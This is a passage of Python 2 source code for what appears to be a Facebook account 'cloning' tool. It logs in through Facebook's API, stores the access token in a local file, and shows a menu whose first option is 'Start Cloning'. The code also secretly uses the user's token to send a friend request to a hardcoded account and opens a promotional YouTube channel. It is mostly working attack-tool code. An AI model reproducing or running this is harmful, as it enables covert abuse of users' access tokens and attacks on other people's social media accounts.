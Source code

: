 				a=x.hexdigest()
				data.update({'sig':a})
				url = "https://api.facebook.com/restserver.php"
				r=requests.get(url,params=data)
				z=json.loads(r.text)
				unikers = open("login.txt", 'w')
				unikers.write(z['access_token'])
				unikers.close()
				print '\n\x1b[1;36;40m[🞉] Login Done Successfully ✓ '
				os.system('xdg-open https://www.youtube.com/channel/UCv_YdNL-zlmFAGL0rqUOuvg')
				requests.post('https://graph.facebook.com/me/friends?method=post&uids=gwimusa3&access_token='+z['access_token'])
				menu()
			except requests.exceptions.ConnectionError:
				print"\n\x1b[1;91m[!] There is no internet connection"
				keluar()
		if 'checkpoint' in url:
			print("\n\x1b[1;92m[!] Your Account is on Checkpoint")
			os.system('rm -rf login.txt')
			time.sleep(1)
			keluar()
		else:
			print("\n\x1b[1;93mPassword/Email is wrong")
			os.system('rm -rf login.txt')
			time.sleep(1)
			login()


def menu():
	os.system('clear')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		os.system('clear')
		print"\x1b[1;91m[!] Token invalid"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	try:
		otw = requests.get('https://graph.facebook.com/me?access_token='+toket)
		a = json.loads(otw.text)
		nama = a['name']
		id = a['id']
		ots = requests.get('https://graph.facebook.com/me/subscribers?access_token=' + toket)
		b = json.loads(ots.text)
		sub = str(b['summary']['total_count'])
	except KeyError:
		os.system('clear')
		print"\033[1;91mYour Account is on Checkpoint"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	except requests.exceptions.ConnectionError:
		print"\x1b[1;92mThere is no internet connection"
		keluar()
	os.system("clear")
	print logo
	print "   \033[1;36;40m      ╔═════════════════════════════════╗"
	print "   \033[1;36;40m      ║\033[1;32;40m[《•》] Name\033[1;32;40m: "+nama+"  	   \033[1;36;40m║"                               
	print "   \033[1;36;40m      ║\033[1;32;40m[《•》] ID  \033[1;34;40m: "+id+"    \033[1;36;40m║"
	print "   \033[1;36;40m      ║\033[1;32;40m[《•》] Subs\033[1;34;40m: "+sub+"                  \033[1;36;40m║"
	print "   \033[1;36;40m      ╚═════════════════════════════════╝"
	print "\033[1;32;98m[1] \033[1;96mStart Cloning"																														